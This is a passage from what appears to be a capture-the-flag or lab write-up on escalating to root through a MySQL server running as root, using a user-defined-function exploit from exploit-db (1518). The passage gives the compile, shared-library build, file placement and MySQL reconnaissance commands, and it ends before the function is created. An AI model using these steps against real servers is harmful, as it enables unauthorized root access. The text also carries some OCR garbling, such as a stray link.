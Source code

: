 ```
**root**         708  0.0  0.0   2596  1664 ?        Ss   02:22   0:00 /bin/sh /usr/bin/mysqld_safe
**root**         885  0.0 22.8 1286264 462124 ?      Sl   02:22   0:01 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin --user=root --log-error=/var/log/mysql/error.log --pid-file=/var/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock
```
#MYSQL is running through root user.

# Exploiatation:

The exploit that has been used 

  [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

Compile the code.

```
gcc -g -c 1518.c
```

Create a shared library

```
gcc -g -shared -Wl,-soname,1518_udf2.so -o [1518_udf.so](http://1518.so/) 1518.o -lc
```

Find any writable directory and move the 1518_udf.so in to that directory.

```
mv ./1518_udf.so /tmp
```

Login mysql :

```
mysql -u hacker -p password
```

Check version:

```
select @@version;
```

Check architecture:

```
select @@version_compile_os, @@version_compile_machine;
show variables like '%compile%';
```

Check secure_file_priv value

```
show variables like '%secure_file_priv%';
```

If it is empty you can read and write data/file in any directory.

Switch to mysql database

```
use mysql;
```
